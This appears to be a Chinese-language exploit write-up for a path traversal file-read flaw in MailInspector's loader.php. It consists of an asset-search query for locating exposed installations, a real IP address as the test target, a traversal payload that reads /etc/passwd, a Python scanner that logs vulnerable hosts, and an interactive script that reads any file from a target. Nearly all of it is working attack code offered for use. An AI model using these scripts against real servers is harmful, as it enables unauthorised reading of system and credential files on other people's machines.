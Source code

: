 ## 一、资产搜索

```
body="mailinspector/public"
```

## 二、网站测试

```
https://187.63.160.15
```

## 三、验证漏洞

```
/mailinspector/public/loader.php?path=../../../../../../../etc/passwd
```

![image-20240914173205415](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240914173205415.png)

## 四、POC

```
def poc(target):
    payload = "/mailinspector/public/loader.php?path=../../../../../../../etc/passwd"
    res1 = requests.get(url=target,verify=False,timeout=5)
    if res1.status_code == 200:
        res2 = requests.get(url=target+payload,verify=False,timeout=5)
        if "root" in res2.text:
            with open("result.txt","a",encoding='utf-8') as f:
                f.write(f"[+]{target}\n")
                f.close()
                print(f"[+]{target}存在文件读取漏洞")
                return True
        else:
            print(f"[-]{target}不存在文件读取漏洞")
    else:
        print("访问超时，请手动测试！！！")
```

## 五、EXP

```
def exp(target):
    while True:
        content = input("请输入要查看的路径，从/目录开始输入(q退出)\n>>>>>>>>>>>>>>>>>>")
        payload = "/mailinspector/public/loader.php?path=../../../../../../.."
        res1 = requests.get(url=target, verify=False,timeout=5)
        if content == "q":
            exit()
        if res1.status_code == 200:
            res2 = requests.get(url=target + payload +content, verify=False, timeout=5)
            print(res2.text)
        else:
            print("该文件不存在，请重新输入！！")
```

## 六、测试结果

![image-20240914173735842](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240914173735842.png)
